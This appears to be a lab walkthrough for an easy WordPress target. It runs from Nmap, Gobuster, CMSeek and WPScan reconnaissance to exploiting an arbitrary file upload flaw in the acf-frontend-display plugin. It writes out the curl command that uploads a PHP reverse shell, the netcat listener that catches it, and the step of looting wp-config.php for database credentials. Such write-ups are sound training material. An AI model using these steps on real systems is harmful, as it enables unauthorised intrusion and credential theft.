# Wordpress Host Server 1

## Introduction
### **Platform**: Armour
### **Difficulty Level**: Easy
### **IP Address/Target URL**: 192.168.29.116
### **Date**: 05-09-2024

## Enumeration
### Initial Reconnaissance
### **Tools Used**: Netdiscover, Nmap

#### - Discovering the Target's IP Address:
To identify the target's IP address on the network, I used Netdiscover:

```
netdiscover -i eth0 -r 192.168.29.1/24
```



#### - Initial Port Scanning with Nmap:
I conducted an Nmap scan to find open ports on the target:

```
nmap -v -p- 192.168.29.116 -oN nmap_initial_scan.txt

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-04 16:25 EDT
Initiating ARP Ping Scan at 16:25
Scanning 192.168.29.116 [1 port]
Completed ARP Ping Scan at 16:25, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 16:25
Completed Parallel DNS resolution of 1 host. at 16:25, 0.02s elapsed
Initiating SYN Stealth Scan at 16:25
Scanning 192.168.29.116 [65535 ports]
Discovered open port 22/tcp on 192.168.29.116
Discovered open port 443/tcp on 192.168.29.116
Discovered open port 80/tcp on 192.168.29.116
SYN Stealth Scan Timing: About 16.61% done; ETC: 16:28 (0:02:36 remaining)
Stats: 0:00:30 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 16.93% done; ETC: 16:28 (0:02:32 remaining)
SYN Stealth Scan Timing: About 35.36% done; ETC: 16:27 (0:01:52 remaining)
SYN Stealth Scan Timing: About 55.48% done; ETC: 16:27 (0:01:13 remaining)
SYN Stealth Scan Timing: About 76.83% done; ETC: 16:27 (0:00:36 remaining)
Completed SYN Stealth Scan at 16:27, 150.74s elapsed (65535 total ports)
Nmap scan report for 192.168.29.116
Host is up (0.00045s latency).
Not shown: 65376 filtered tcp ports (no-response), 156 filtered tcp ports (host-prohibited)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
MAC Address: 08:00:27:8A:23:B2 (Oracle VirtualBox virtual NIC)
```

### Results:

- Port 22: SSH
- Port 80: HTTP
- Port 443: HTTPS

Below is a snippet from the Nmap scan output:

```
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

#### - Service and Version Detection with Nmap:

Next, I ran a more detailed Nmap scan to identify the services and versions running on the open ports:

```
nmap -v -p 22,80,443 -sC -sV -A 192.168.29.116 -oN nmap_service_scan.txt

Nmap scan report for 192.168.29.116
Host is up (0.00041s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 08:af:4d:3c:91:26:85:2c:30:d1:38:d7:cd:8c:c3:1d (RSA)
|   256 a8:7c:c9:a5:2d:dd:04:d0:e0:25:2a:cd:f7:68:0c:06 (ECDSA)
|_  256 a2:72:b9:95:7b:55:2e:57:78:26:75:d4:71:69:89:46 (ED25519)
80/tcp  open  http     Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.3.14)
|_http-title: Armour Infosec
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.3.14
|_http-generator: WordPress 5.3.2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
443/tcp open  ssl/http Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.3.14)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.3.14
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_ssl-date: TLS randomness does not represent time
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=armour infosec/organizationName=Armour infosec/stateOrProvinceName=MP/countryName=IN
| Issuer: commonName=armour infosec/organizationName=Armour infosec/stateOrProvinceName=MP/countryName=IN
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-01-30T18:25:03
| Not valid after:  2021-01-29T18:25:03
| MD5:   8341:6446:1cf6:683a:08aa:61c2:9ce0:eb7c
|_SHA-1: 2156:34a0:2f82:7bd6:cc5c:4352:6063:125b:37bb:f046
MAC Address: 08:00:27:8A:23:B2 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|storage-misc
Running (JUST GUESSING): Linux 3.X|4.X|5.X|2.6.X (97%), Synology DiskStation Manager 5.X (90%), Netgear RAIDiator 4.X (87%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5.1 cpe:/o:linux:linux_kernel:2.6.32 cpe:/a:synology:diskstation_manager:5.2 cpe:/o:netgear:raidiator:4.2.28
Aggressive OS guesses: Linux 3.10 - 4.11 (97%), Linux 3.2 - 4.9 (97%), Linux 5.1 (97%), Linux 3.13 - 3.16 (91%), Linux 3.16 - 4.6 (91%), Linux 4.10 (91%), Linux 4.4 (91%), Linux 2.6.32 (91%), Linux 3.4 - 3.10 (91%), Linux 4.15 - 5.8 (91%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.004 days (since Wed Sep  4 16:26:23 2024)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE
HOP RTT     ADDRESS
1   0.41 ms 192.168.29.116

```

### Service Detection Results:

- 22/tcp:   OpenSSH 7.4 (protocol 2.0)
- 80/tcp:   Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.3.14)
- 443/tcp:  Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.3.14)

Further details include SSL certificate information and HTTP methods supported.

## HTTP Enumeration (Port 80 and 443)

### Checking the Web Server:

Both ```http://192.168.29.116``` and ```https://192.168.29.116``` served the same index page. The website was identified as running WordPress.




### Directory Enumeration with Gobuster:
I used Gobuster to enumerate directories on the web server:

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.29.116 -t 50 -b 503,404
```



## Key Findings:

- **/wp-content/** - Nothing listed.



- **/wp-includes/** - Directory listing available.



- **/wp-admin/** - WordPress login page discovered.


### CMS Identification with CMSeek:
I ran CMSeek to identify the CMS and gather more details:

```
cmseek -u http://192.168.29.116

 ___ _  _ ____ ____ ____ _  _
|    |\/| [__  |___ |___ |_/  by @r3dhax0r
|___ |  | ___| |___ |___ | \_ Version 1.1.3 K-RONA


 [+]  Deep Scan Results  [+] 

 ┏━Target: 192.168.29.116
 ┃
 ┠── CMS: WordPress
 ┃    │
 ┃    ├── Version: 5.3.2
 ┃    ╰── URL: https://wordpress.org
 ┃
 ┠──[WordPress Deepscan]
 ┃    │
 ┃    ├── Readme file found: http://192.168.29.116/readme.html
 ┃    ├── License file: http://192.168.29.116/license.txt
 ┃    │
 ┃    ├── Plugins Enumerated: 16
 ┃    │    │
 ┃    │    ├── Plugin: gracemedia-media-player
 ┃    │    │   │
 ┃    │    │   ├── Version: 5.3.2
 ┃    │    │   ╰── URL: http://192.168.29.116/wp-content/plugins/gracemedia-media-player
 ┃    │    │
 ┃    │    ├── Plugin: searchwp-live-ajax-search
 ┃    │    │   │
 ┃    │    │   ├── Version: 1.4.4
 ┃    │    │   ╰── URL: http://192.168.29.116/wp-content/plugins/searchwp-live-ajax-search
 ┃    │    │
 ┃    │    ├── Plugin: photo-gallery
 ┃    │    │   │
 ┃    │    │   ├── Version: 0.0.1
 ┃    │    │   ╰── URL: http://192.168.29.116/wp-content/plugins/photo-gallery
 ┃    │    │
 ┃    │    ├── Plugin: elementor
 ┃    │    │   │
 ┃    │    │   ├── Version: 4.7.0
 ┃    │    │   ╰── URL: http://192.168.29.116/wp-content/plugins/elementor
 ┃    │    │
 ┃    │    ├── Plugin: wp-google-places-review-slider
 ┃    │    │   │
 ┃    │    │   ├── Version: 6.1
 ┃    │    │   ╰── URL: http://192.168.29.116/wp-content/plugins/wp-google-places-review-slider
 ┃    │    │
 ┃    │    ├── Plugin: ad-manager-wd
 ┃    │    │   │
 ┃    │    │   ├── Version: 1.0.0
 ┃    │    │   ╰── URL: http://192.168.29.116/wp-content/plugins/ad-manager-wd
 ┃    │    │
 ┃    │    ├── Plugin: mail-masta
 ┃    │    │   │
 ┃    │    │   ├── Version: 5.3.2
 ┃    │    │   ╰── URL: http://192.168.29.116/wp-content/plugins/mail-masta
 ┃    │    │
 ┃    │    ├── Plugin: ajax-load-more
 ┃    │    │   │
 ┃    │    │   ├── Version: 5.3.2
 ┃    │    │   ╰── URL: http://192.168.29.116/wp-content/plugins/ajax-load-more
 ┃    │    │
 ┃    │    ├── Plugin: wp-jobs
 ┃    │    │   │
 ┃    │    │   ├── Version: 5.3.2
 ┃    │    │   ╰── URL: http://192.168.29.116/wp-content/plugins/wp-jobs
 ┃    │    │
 ┃    │    ├── Plugin: spider-event-calendar
 ┃    │    │   │
 ┃    │    │   ├── Version: 1.5.51
 ┃    │    │   ╰── URL: http://192.168.29.116/wp-content/plugins/spider-event-calendar
 ┃    │    │
 ┃    │    ├── Plugin: audio-record
 ┃    │    │   │
 ┃    │    │   ├── Version: 5.3.2
 ┃    │    │   ╰── URL: http://192.168.29.116/wp-content/plugins/audio-record
 ┃    │    │
 ┃    │    ├── Plugin: albo-pretorio-on-line
 ┃    │    │   │
 ┃    │    │   ├── Version: 5.3.2
 ┃    │    │   ╰── URL: http://192.168.29.116/wp-content/plugins/albo-pretorio-on-line
 ┃    │    │
 ┃    │    ├── Plugin: easy-modal
 ┃    │    │   │
 ┃    │    │   ├── Version: 0.1
 ┃    │    │   ╰── URL: http://192.168.29.116/wp-content/plugins/easy-modal
 ┃    │    │
 ┃    │    ├── Plugin: wp-responsive-thumbnail-slider
 ┃    │    │   │
 ┃    │    │   ├── Version: 5.3.2
 ┃    │    │   ╰── URL: http://192.168.29.116/wp-content/plugins/wp-responsive-thumbnail-slider
 ┃    │    │
 ┃    │    ├── Plugin: wp-with-spritz
 ┃    │    │   │
 ┃    │    │   ├── Version: 5.3.2
 ┃    │    │   ╰── URL: http://192.168.29.116/wp-content/plugins/wp-with-spritz
 ┃    │    │
 ┃    │    ╰── Plugin: wp-support-plus-responsive-ticket-system
 ┃    │        │
 ┃    │        ├── Version: 5.3.2
 ┃    │        ╰── URL: http://192.168.29.116/wp-content/plugins/wp-support-plus-responsive-ticket-system
 ┃    │
 ┃    │
 ┃    ├── Themes Enumerated: 1
 ┃    │    │
 ┃    │    ╰── Theme: rife-free
 ┃    │        │
 ┃    │        ├── Version: 1.6.9
 ┃    │        ╰── URL: http://192.168.29.116/wp-content/themes/rife-free
 ┃    │
 ┃
 ┠── Result: /usr/share/cmseek/Result/192.168.29.116/cms.json
 ┃
 ┗━Scan Completed in 9.95 Seconds, using 45 Requests
```

## CMSeek Results:

- **CMS** : WordPress
- **Version** : 5.3.2
- **Plugins Enumerated** : 16 (e.g., gracemedia-media-player, searchwp-live-ajax-search, etc.)
- **Themes Enumerated** : 1 (rife-free)

### Detailed WordPress Enumeration with WPScan:
To enumerate more information about the WordPress installation, I used WPScan:

```
wpscan --url https://192.168.29.116 --enumerate ap,at,cb,dbe --plugins-detection aggressive --disable-tls-checks
```
Due to the large output, I focused on relevant results related to our objectives.

```
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: https://192.168.29.116/ [192.168.29.116]
[+] Started: Wed Sep  4 16:46:04 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.3.14
 |  - X-Powered-By: PHP/7.3.14
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: https://192.168.29.116/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: https://192.168.29.116/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: https://192.168.29.116/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.3.2 identified (Insecure, released on 2019-12-18).
 | Found By: Emoji Settings (Passive Detection)
 |  - https://192.168.29.116/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.3.2'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - https://192.168.29.116/, Match: 'WordPress 5.3.2'

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Aggressive Methods)
 Checking Known Locations - Time: 00:02:10 <===================================================================================> (106533 / 106533) 100.00% Time: 00:02:10
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] acf-frontend-display
 | Location: https://192.168.29.116/wp-content/plugins/acf-frontend-display/
 | Readme: https://192.168.29.116/wp-content/plugins/acf-frontend-display/readme.txt
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - https://192.168.29.116/wp-content/plugins/acf-frontend-display/, status: 200
 |
 | Version: 2.0.5 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - https://192.168.29.116/wp-content/plugins/acf-frontend-display/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - https://192.168.29.116/wp-content/plugins/acf-frontend-display/readme.txt
```

## Results:

- Detected Plugins:
  - acf-frontend-display (Version 2.0.5)
  - **Vulnerability** : Arbitrary File Upload (ExploitDB: [37514](https://www.exploit-db.com/exploits/37514))

## Vulnerability Identification
### Identifying Vulnerabilities
- Vulnerable Plugin: acf-frontend-display (Version 2.0.5)
- Vulnerability: Arbitrary File Upload allows unauthorized users to upload malicious files to the server.
- Research and References:
  - ExploitDB Entry: https://www.exploit-db.com/exploits/37514
 



 
## Exploitation
### Initial Exploit
#### **Exploit Used** : Arbitrary File Upload via acf-frontend-display plugin

#### **Commands/Steps:**

1. Prepare a Reverse Shell Payload:

- Created revsh.php using Pentest Monkey's PHP reverse shell script.
  - Source: Pentest Monkey [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
 
2. Upload the Reverse Shell:

```
curl -k -X POST -F "action=upload" -F "files=@/home/kali/Desktop/revsh.php" "http://192.168.29.116/wp-content/plugins/acf-frontend-display/js/blueimp-jQuery-File-Upload-d45deb1/server/php/index.php"
```



#### Explanation:
- ```-k```: Ignore SSL certificate warnings.
- ```-X POST```: Use POST method.
- ```-F "action=upload"```: Set form field action to upload.
- ```-F "files=@/home/kali/Desktop/revsh.php"```: Upload the file revsh.php.

3. Locate the Uploaded File:

- File path pattern: ```http://192.168.29.116/wp-content/uploads/uigen_YEAR/revsh.php```
- Example: ```http://192.168.29.116/wp-content/uploads/uigen_2024/revsh.php```



### Shell Access

1. Start a Netcat Listener:

```
nc -nlvp 1234
```

2. Trigger the Reverse Shell:

- Navigate to the uploaded reverse shell URL in the browser:
  - ```https://192.168.29.116/wp-content/uploads/uigen_2024/revsh.php```
 
3. Gain Shell Access:

- A connection is established, and we have a shell as the ```apache``` user

## Post-Exploitation

### Enumerate Further Information

#### - Check Current User:

```
whoami
# Output: apache
```

#### - List System Information:

```
uname -a
```

#### - Explore File System:

```
ls -la /home
ls -la /var/www/html
```



### Looting Sensitive Data
#### - Potential Data to Collect:

- WordPress configuration files (e.g., ```wp-config.php```) containing database credentials.
- User directories under /home.

## Privilege Escalation
### Identifying Weaknesses
#### Methods:

- Manual checks for SUID binaries, cron jobs, and misconfigurations.
- Note: In this walkthrough, privilege escalation was not performed, but alternative exploits are mentioned.

#### Vulnerable Paths
- Other vulnerable plugins that could be exploited for higher privileges:

  - gracemedia-media-player (ExploitDB: 46537)
  - Elementor (ExploitDB: 46252)
  - Mail Masta (ExploitDB: 40290)
  - Audio Record (ExploitDB: 46055)

### Exploiting for Root
Not covered in this walkthrough. Further enumeration and exploitation of the vulnerabilities listed above may lead to root access.

## Lessons Learned
### Key Takeaways
#### - Importance of Enumerating Plugins:
  - Enumerating WordPress plugins can reveal critical vulnerabilities.
#### - Using Multiple Tools:
  - Combining tools like Nmap, Gobuster, CMSeek, and WPScan enhances the enumeration process.
#### - Exploiting Known Vulnerabilities:
  - Leveraging publicly available exploits can expedite the exploitation phase.


